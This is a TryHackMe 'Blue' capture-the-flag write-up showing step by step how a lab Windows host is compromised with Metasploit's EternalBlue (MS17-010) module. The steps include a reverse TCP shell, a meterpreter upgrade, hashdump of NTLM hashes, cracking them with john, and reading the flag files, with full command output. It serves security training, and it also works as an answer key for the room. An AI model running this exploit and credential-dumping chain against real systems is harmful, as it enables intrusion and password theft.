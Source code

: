 # Blue

- [Tools](#tools)
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags](#find-flags)

Room Link: [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

Badges: [https://tryhackme.com/ZishanAdThandar/badges/blue](https://tryhackme.com/ZishanAdThandar/badges/blue)

## Tools 

1. NMap https://nmap.org/download
2. Metasploit https://www.metasploit.com/download

## Recon

1. Scan with nmap using command, `nmap 10.10.248.180 --script vuln -p0-1000`

Output:
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-27 10:57 IST
Nmap scan report for 10.10.248.180
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
135/tcp open  msrpc
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp open  netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-webexec: ERROR: Script execution failed (use -d to debug)
445/tcp open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-webexec: ERROR: Script execution failed (use -d to debug)

Host script results:
|_samba-vuln-cve-2012-1182: ERROR: Script execution failed (use -d to debug)
|_smb-double-pulsar-backdoor: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-conficker: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-cve-2017-7494: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms06-025: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms07-029: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms08-067: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms17-010: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-regsvc-dos: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 34.07 seconds
```
2. Question `How many ports are open with a port number under 1000?` Answer `3`
3. Question `What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)` Answer `ms17-010`

## Gain Access

1. Start Metasploit with `msfconsole`
2. Following next question, searched exploit in metasploit console with `search ms17-010` command
Output:
```bash
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
```
3. Question `Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)` Ansswer `exploit/windows/smb/ms17_010_eternalblue`
4. To use the exploit we typed `use exploit/windows/smb/ms17_010_eternalblue` command
5. After checkinh options with `options` command, we found that we need to add rhosts with `set rhosts 10.10.248.180` and `set lhost tun0` command
6. Question `Show options and set the one required value. What is the name of this value? (All caps for submission)` Answer `RHOSTS`

## Escalate 
1. Used payload with command `set payload windows/x64/shell/reverse_tcp`
2. Then `run` and wait for some time.
3. `search shell_to_meterpreter` to find module to upgrade session to meterpreter.
Output:
```bash
Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter
```
4. Question `If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)` Answer `post/multi/manage/shell_to_meterpreter`
5. Question `Select this (use MODULE_PATH). Show options, what option are we required to change?` Answer `SESSION`
6. Run the module after setting session. If fails run it again, it will connect.
```bash
meterpreter > shell
Process 808 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ps
ps
'ps' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32>exit
exit
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 416   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM  ...........
...............................................................................
...............................................................................
```
7. Use `migrate PROCESS_ID` to mmigrate.

## Cracking
1. Use `hashdump` to hashes.
Output:
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
2. Question `Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?` Answer `Jon`
3. Save hashes in a file named `hash.txt` and use `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` to crack the hash.
4. Question `Copy this password hash to a file and research how to crack it. What is the cracked password?` Answer `*******`

## Find flags
1. We can goto `C:\\` abd get first flag using `cat flag1.txt`.
```bash
meterpreter > pwd
C:\Windows\system32
meterpreter > cd C:\\
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2018-12-13 08:43:36 +0530  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2009-07-14 10:38:56 +0530  Documents and Settings
040777/rwxrwxrwx  0      dir   2009-07-14 08:50:08 +0530  PerfLogs
040555/r-xr-xr-x  4096   dir   2019-03-18 03:52:01 +0530  Program Files
040555/r-xr-xr-x  4096   dir   2019-03-18 03:58:38 +0530  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2019-03-18 04:05:57 +0530  ProgramData
040777/rwxrwxrwx  0      dir   2018-12-13 08:43:22 +0530  Recovery
040777/rwxrwxrwx  4096   dir   2019-03-18 04:05:55 +0530  System Volume Information
040555/r-xr-xr-x  4096   dir   2018-12-13 08:43:28 +0530  Users
040777/rwxrwxrwx  16384  dir   2019-03-18 04:06:30 +0530  Windows
100666/rw-rw-rw-  24     fil   2019-03-18 00:57:21 +0530  flag1.txt
000000/---------  0      fif   1970-01-01 05:30:00 +0530  hiberfil.sys
000000/---------  0      fif   1970-01-01 05:30:00 +0530  pagefile.sys

meterpreter > cat flag1.txt
flag{********************************}
```
2. We can use `search -f flag2.txt` and `search -f flag2.txt` to find second and third flag to submit, as we already know the first one.
```bash
meterpreter > search -f flag2.txt
Found 1 result...
=================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\Windows\System32\config\flag2.txt  34            2019-03-18 01:02:48 +0530

meterpreter > cat c:\Windows\System32\config\flag2.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > cat "c:\Windows\System32\config\flag2.txt"
flag{********************************s}
meterpreter > search -f flag3.txt
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
c:\Users\Jon\Documents\flag3.txt  37            2019-03-18 00:56:36 +0530

meterpreter > cat "c:\Users\Jon\Documents\flag3.txt"
flag{********************************}
```
3. flag1 : `flag{********************************}` flag2: `flag{********************************}` flag3:`flag{********************************}`

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
